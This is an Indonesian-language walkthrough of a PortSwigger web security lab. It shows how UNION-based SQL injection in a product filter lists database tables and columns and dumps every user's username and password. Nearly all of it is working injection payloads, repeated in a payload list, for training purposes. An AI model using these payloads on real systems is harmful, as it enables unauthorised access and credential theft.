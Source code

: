 # SQL Injection Attack: Listing the Database Contents on Non-Oracle Databases

Lab ini mengandung kerentanannya dalam SQL injection pada filter kategori produk. Hasil dari query yang dieksekusi ditampilkan dalam respons aplikasi, memungkinkan Anda menggunakan serangan UNION untuk mengambil data dari tabel lain.

Aplikasi ini memiliki fungsi login, dan database menyimpan sebuah tabel yang menyimpan nama pengguna dan kata sandi. Anda perlu menentukan nama tabel ini dan kolom-kolom yang ada di dalamnya, kemudian mengambil konten tabel untuk memperoleh nama pengguna dan kata sandi dari semua pengguna.

Tujuan dari lab ini adalah untuk login sebagai pengguna administrator.

---

### **Langkah-langkah Melakukan Serangan**

#### **Langkah 1: Analisis Struktur Query**
Dengan menyuntikkan payload berikut:
```
/filter?category=Gifts'--
```
Aplikasi kemungkinan besar menjalankan query berikut:
```sql
SELECT description, content 
FROM posts 
WHERE category = 'Gifts';
```
Query ini mengembalikan dua kolom: `description` dan `content`.

#### **Langkah 2: Tentukan Jumlah Kolom**
Untuk mengetahui jumlah kolom dalam query asli, suntikkan:
```
/filter?category=Gifts'+union+all+select+NULL,NULL-- 
```
Jika tidak ada kesalahan, query tersebut memiliki dua kolom.

#### **Langkah 3: Ambil Daftar Nama Tabel**
Untuk mengambil daftar tabel dalam database, kita bisa mengakses `information_schema.tables`. Suntikkan payload berikut:
```
/filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
```
Payload ini akan menampilkan daftar nama tabel yang ada di dalam database.

#### **Langkah 4: Ambil Daftar Kolom dalam Tabel**
Setelah menemukan tabel yang relevan, misalnya `users_vptjgu`, kita bisa mengecek kolom-kolom yang ada dalam tabel tersebut menggunakan query:
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'users_vptjgu';
```
Suntikkan payload berikut untuk melihat kolom dalam tabel `users_vptjgu`:
```
/filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+='users_vptjgu'--
```
Ini akan menampilkan nama-nama kolom dalam tabel `users_vptjgu`.

#### **Langkah 5: Ambil Konten Tabel**
Setelah mengetahui nama kolomnya, kita bisa mengambil konten tabel, dalam hal ini `username` dan `password`. Suntikkan payload berikut untuk melihat data dalam tabel `users_vptjgu`:
```
/filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--
```
Dengan payload ini, kita akan melihat nama pengguna dan kata sandi dari seluruh pengguna.

---

### **Payload yang Valid**

#### **Uji Awal: Menampilkan Produk**
- Menampilkan produk di kategori "Gifts":
  ```
  /filter?category=Gifts'--
  ```

#### **Menampilkan Semua Item dengan Bypass:**
- Menampilkan semua produk:
  ```
  /filter?category=Gifts'+or+1=1--
  ```

#### **Menentukan Jumlah Kolom:**
- Tentukan jumlah kolom:
  ```
  /filter?category=Gifts'+union+all+select+NULL,NULL-- 
  ```

#### **Mengambil Daftar Nama Tabel:**
- Ambil daftar tabel:
  ```
  /filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
  ```

#### **Mengambil Daftar Kolom dalam Tabel `users_vptjgu`:**
- Ambil daftar kolom:
  ```
  /filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+='users_vptjgu'--
  ```

#### **Menampilkan Konten Tabel `users_vptjgu`:**
- Ambil data dari tabel:
  ```
  /filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--
  ```

---

### **Ilustrasi**

#### **Tampilan Awal (Deskripsi dan Konten)**
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/1.png)

#### **Menampilkan Daftar Tabel dari `information_schema.tables`**
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/2.png)

#### **Menampilkan Daftar Kolom dari Tabel `users_vptjgu`**
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/3.png)

#### **Menampilkan Konten Tabel `users_vptjgu`**
![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20non-Oracle%20databases/4.png)

---

### **Referensi**

- [SQL Injection - Examining the Database](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
